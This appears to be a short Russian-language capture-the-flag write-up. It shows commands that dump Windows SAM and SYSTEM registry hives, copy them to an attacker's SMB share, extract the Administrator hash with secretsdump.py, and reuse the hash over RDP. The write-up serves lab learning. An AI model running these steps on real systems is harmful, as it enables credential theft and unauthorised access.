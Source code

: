 Подключается к машине через xfreerdp
Сохраняем кусты реестров sam и system через cmd администратора
```
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
```
Запускаем на локальной машине smbserver и передаем на свою машину сохраненные кусты реестра
```
move sam.save \\100.100.2.252\tmp
```
С помощью secretsdump.py получаем хеш Администратора
```
secretsdump.py  -system system.save -sam sam.save LOCAL
```
Подключается по rdp к администратору используя ранее полученный хеш и забираем флаг